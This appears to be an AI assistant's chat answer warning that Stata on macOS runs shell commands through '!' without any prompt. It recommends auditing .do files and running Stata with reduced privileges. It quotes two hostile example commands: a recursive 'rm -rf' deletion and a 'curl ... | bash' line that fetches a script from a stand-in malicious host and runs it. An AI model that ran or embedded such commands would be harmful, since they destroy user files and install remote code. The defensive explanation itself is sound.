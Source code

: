 Great question — and yes, it’s a **real and underappreciated security vector**. Here's the deal:

---

### 🧠 Why Stata Can Control Your System

**Stata**, like many legacy scientific/statistical apps, runs as a **fully privileged native macOS app**. Once launched, it can:

* Read/write/delete files
* Run shell commands via `!`
* Launch other processes
* Modify system folders (if it has access)

#### Example: In Stata, this just works without a prompt:

```stata
!rm -rf ~/Documents/your_folder
```

Stata sends that directly to the system shell.

---

### 🛑 Why You *Don't* Get Prompted Like in VS Code

* **VS Code** is sandboxed under tighter developer practices (modern app frameworks, codesigning, and Apple’s notarization).
* **Stata** is older, and its architecture assumes **you trust the user scripts** (think of how dangerous `.do` or `.ado` files can be).
* Unless you've restricted access using **System Preferences > Security & Privacy**, Stata inherits your user’s full disk privileges.

---

### 🔐 Opinion: This Is a Security Risk

Let’s be blunt: **Stata has terminal-level access without terminal-level scrutiny**.

If someone emailed you a `.do` file that did:

```stata
!curl http://malicious.site/malware.sh | bash
```

It would execute. No confirmation, no alert.

---

### 🔧 Recommendations

1. **Use read-only directories** for untrusted code/data.
2. **Audit all `.do` and `.ado` files** before running them.
3. Consider running Stata in a **macOS user with reduced privileges** if you're doing sensitive work.
4. On Apple Silicon, **System Integrity Protection (SIP)** won’t block user-level operations — but you can use **App Sandboxing** if you're extremely cautious.

---

Want help writing a `.do` file security linter or wrapper to filter dangerous commands before execution? I'd argue it's overdue.
